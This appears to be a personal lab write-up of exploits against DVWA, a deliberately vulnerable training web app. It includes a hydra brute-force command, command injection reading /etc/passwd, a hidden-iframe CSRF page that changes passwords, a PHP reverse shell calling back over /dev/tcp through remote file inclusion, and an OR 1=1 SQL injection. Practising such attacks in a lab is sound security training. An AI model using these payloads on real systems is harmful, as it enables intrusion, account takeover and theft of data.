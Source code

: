 # [Brute Force]

--- 

## Steps to Exploit

1. Navigate to a directory with a wordlist in it. Or copy one to a directory. Or set the path to it in hydra.
2. hydra -l admin -P rockyou.txt 192.168.1.117 http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie:PHPSESSID=58g00j5r76tjr9jhji9gbif564;security=medium:F=Username and/or password incorrect."
- -l states its a login
- -P calls a pass list
- IP is DVWA dest IP on vlan (hopefully lol)
- Set web server directory
- If you inspect the DVWA login form you will see the name of the elements you need to specify for hydra to know what on the web page its trying to brute force.
- Set cookies. Without DVWA rejects the request as it doesn't represent a legitimate request. Can get these from performing a get request on the server and viewing dev stuff in firefox/chrome/brave etc.
3. Login


# [Command Execution]

--- 

## Steps to Exploit

1. Get an IP from your internal network/vlan.
- In Linux arp -a
2. Different command chaining options
- ; && || | $()
3. Try all of these. Some work
4. 192.168.1.1 | cat /etc/passwd


# [CSRF]

--- 

## Steps to Exploit

1. So to make this a bit more interesting I'll whack it in an iframe. When loaded it will change your password on DVWA.
2. After having a look at network in dev tools the request is a GET request when changing pass
3. Also observed if you have a look in the URL after changing the password the params are very easily editable to change pass
4. Because there isn't a token in the GET request, we don't need to call a specific cookie/user token to choose what accounts password we are changing.
5. Here's the HTML page
<pre> ```<!DOCTYPE html>
<html>
  <head>
    <title>Error</title>
  </head>
  <body>
    <h2>404 Page Not Found</h2>
    <iframe 
      src="http://192.168.1.117/dvwa/vulnerabilities/csrf/?password_new=password123&password_conf=password123&Change=Change" 
      width="0" 
      height="0" 
      style="display:none;">
    </iframe>
  </body>
</html></pre> ```
6. Changes password to 'password123' for the user that is logged in. This only works if the user is logged into the website at the time.
7. To test this work you can boot up burp for your browser and you will see the forward request come through when you load this malicious html file.
8. You can also host a HTTP server on your host as well. Then if I visit (my-host-ip:port-assigned-to-http-server/malicious-html-filename.html it will commit the change.
9. So I could send this link to a mailbox. And anything that clicks on, that is logged in to the website in question. Will have there password changed.
10. CSRF vulnerabilities are quite obsolete now as most modern sites don't send cookies via GET/POST requests.


# [File Inclusion]

---

## Steps to Exploit LOW

- I've done Low here cause I think it's neat. And demonstrates a bit.

1. Alright lets run a .php reverse shell for this
2. Find ur ip on the internal network/vlan
3. <?php exec("/bin/bash -c 'bash -i>& /dev/tcp/192.168.1.120/1234 0>&1'"); ?>
- Save as shell.php
- IP is your Kali machines IP and the port is whatever port you are going to run the listener on
4. 'Python -m http.server'
5. 'nc -lvnp 1234'
6. Now in the URL in DVWA. Set http://192.168.1.117/dvwa/vulnerabilities/fi/?page=http://192.168.1.120:8080/shell.php (Whatever the equivalent is for ur machine)
7. This tricks the web server into running the .php file from our kali machine. Thus, creating a reverse shell. Easy right!

## Steps to Exploit MEDIUM

# [SQL Injection]

---

## Steps to Exploit MEDIUM
1. Looking at the .php code we can see that mysql_real_escape_string is used
- This escapes ' " \ NULL so none of these can be used in the SQLi
2. So instead we will just use 1 OR 1=1
- 1 because we want the first and last name of user 1. OR 1=1 which is always true.
- So the query would look like this in the backend $getid = "SELECT first_name, last_name FROM users WHERE user_id = 1 OR 1=1";
- Which would then set the $id variable to $id=1 OR TRUE
- Thus returning all the values.
